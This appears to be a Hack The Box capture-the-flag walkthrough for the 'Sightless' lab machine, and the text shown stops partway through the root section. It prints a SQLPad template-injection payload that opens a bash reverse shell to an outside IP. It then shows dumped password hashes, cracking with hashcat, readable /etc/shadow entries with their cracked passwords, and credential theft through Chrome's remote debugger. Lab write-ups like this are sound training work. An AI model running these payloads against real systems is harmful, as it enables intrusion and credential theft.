







# Sea Sightless (Easy) - HTB Writeup

## PART ONE: USER

Let’s begin with an nmap scan:

Port 21,22 and 80. Nothing really fancy.

Let's start on the website and launch a subdomain enumeration :

At the same time, let's have a look at the website. And hoovering over one thing we get :



`sqlpad` subdomain. Okay, let's have a look at it. And we can found the version of the website :



Let's find an exploit. For example, [this one](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb). And the payload is : `{{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.16.21/1234 0>&1"') }}`.

Let's run it :



And boom :



Let's dig in this.

```bash
(remote) root@c184118df0a6:/var/lib/sqlpad# ls
 cache
 sqlpad.sqlite
```

We are root. Interesting. It means at almost 99% that we are in a container (and there's no user.txt nor root.txt). Anyway, there is a db.

I tried to open it with sqlite, but the command wasn't found on the machine. Instead I will use pwncat !

I can just hit `Ctrl+D` and go type `download sqlpad.sqlite`. Now the DB is on my local machine ! I'll open it and see what's inside.

```bash
sqlite> .tables
batches              query_acl            statements
cache                query_tags           users
connection_accesses  schema_version       vw_query_history
connections          service_tokens
queries              sessions
sqlite> SELECT * FROM users;
da9a25f7-588c-40f5-89db-58fbebab591f|admin@sightless.htb|admin||$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.RIIKRysR6pZnxquAWsLFcC||||2024-05-15 04:48:09.377 +00:00|2024-05-15 18:16:54.652 +00:00|0||
26113beb-60eb-4a58-81eb-2318e27eb3bf|john@sightless.htb|editor|||2d3499e3-16ba-4b4b-a49e-c7c5dca89f2d|||2024-05-15 12:29:23.725 +00:00|2024-05-15 12:29:27.257 +00:00||0|
```

One hases. Before craking it, I'll try to see which one I should crack first. To do so, let's inspect the home directory `ls /home`.

```bash
michael  node
```

Well. Nothing interesting. Let's crack both of them. First we need to identify them `hashcat hash.txt /opt/rockyou.txt` :

```bash
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-Intel(R) Core(TM) i7-8650U CPU @ 1.90GHz, 14914/29893 MB (4096 MB allocatable), 8MCU

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].

Started: Thu Sep 12 21:21:56 2024
Stopped: Thu Sep 12 21:22:06 2024
```

And now we can crack it `hashcat hash.txt -m 3200 /opt/rockyou.txt`.

The hash is ... `admin`. Nothing amazing.

Let's keep search for something interesting.

Thanks to `linpeas.sh`. I found that the `/etc/shadow` is readable. Time for more cracking !

And here are the results :

```bash
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:blindside

michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
```

Let's try root. But of course, it didn't work. Going back to michael. And we get in ! (And I'm not the only one on the box x) )

```bash
michael@sightless:~$ ls
index.html  index.html.1  index.html.2  linpeas.sh  lpeas.sh  peas.sh  user.txt
```

And we can validate the flag as user !

## PART TWO: ROOT

Let's have a look at the open ports `netstat -plant | grep LISTEN` :

```bash
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:38249         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:49767         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:32899         0.0.0.0:*               LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Let's forward 8080 and see what's in there. ```ssh -L 8888:localhost:8080 michael@sightless.htb```



But after somesearch it seems to be a dead end.

Thanks to `linpeas.sh` (again), I found strange things with this process :



Never heard of this before, let's dig in this.

After a pure headache, I finally found the answer. There's a bunch of ports used by chrome. And when forwarding all of them ```ssh -L 8080:127.0.0.1:8080 -L 46321:127.0.0.1:46321 -L 3306:127.0.0.1:3306 -L 3000:127.0.0.1:3000 -L 33060:127.0.0.1:33060 -L 33201:127.0.0.1:33201 -L 45135:127.0.0.1:45135 -L 53475:127.0.0.1:53475 michael@sightless.htb```, you can use [this technique](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) to get an overview of what's happening the browser. So you need to add all the previous port and on one of them there is :



And by exploring the requests, you can get the admin username and password : `admin:ForlorfroxAdmin`.


